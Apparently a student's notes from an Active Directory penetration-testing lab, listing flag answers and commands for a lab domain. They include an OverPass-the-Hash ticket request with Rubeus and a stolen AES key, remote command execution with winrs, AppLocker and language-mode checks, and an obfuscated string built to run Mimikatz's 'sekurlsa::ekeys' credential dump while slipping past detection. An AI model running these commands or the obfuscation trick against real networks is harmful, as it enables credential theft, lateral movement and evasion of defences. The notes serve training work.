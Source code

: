 ```
PS C:\Users\Administrator\.jenkins\workspace\Project0>winrs -r:dcorp-mgmt cmd /c "tasklist /v"
```
### Flag - NTLM hash of svcadmin account	
- copy the rc4_hmac_nt
### Flag - We tried to extract clear-text credentials for scheduled tasks from? Flag value is like lsass, registry, credential vault etc.
- credential vault

**Use OverPass-the-Hash to replay svcadmin credentials**
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- Try accessing the domain controller from the new process!
```
winrs -r:dcorp-dc cmd /c set username
```
### Flag - NTLM hash of srvadmin extracted from dcorp-adminsrv	
- login to dcorp-adminsrv
```
PS C:\Users\student603> Enter-PSSession -ComputerName dcorp-adminsrv
```
- not able to rum AMSI bypass, some errors, on checking there is `ConstrainedLanguage` 
```
$ExecutionContext.SessionState.LanguageMode
```
- Let's check if Applocker is configured on dcorp-adminsrv by querying registry keys. Note that we are assuming that reg.exe is allowed to execute:
```
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2

#to check the policies of AppLocker
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
- A default rule is enabled that allows everyone to run scripts from the C:\ProgramFiles folder!

**Create Invoke-MimiEx-keys-stdx.ps1**
- Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx-keys-stdx.ps1 (where x is your student ID).
- Open Invoke-MimiEx-keys-stdx.ps1 in PowerShell ISE (Right click on it and click Edit).
- Add the below encoded value for "sekurlsa::ekeys" to the end of the file.
```
$8 = "s";
$c = "e";
$g = "k";
$t = "u";
$p = "r";
$n = "l";
$7 = "s";
$6 = "a";
$l = ":";
$2 = ":";
$z = "e";
$e = "k";
$0 = "e";
$s = "y";
$1 = "s";
$Pwn = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s + $1 ;
Invoke-Mimi -Command $Pwn
```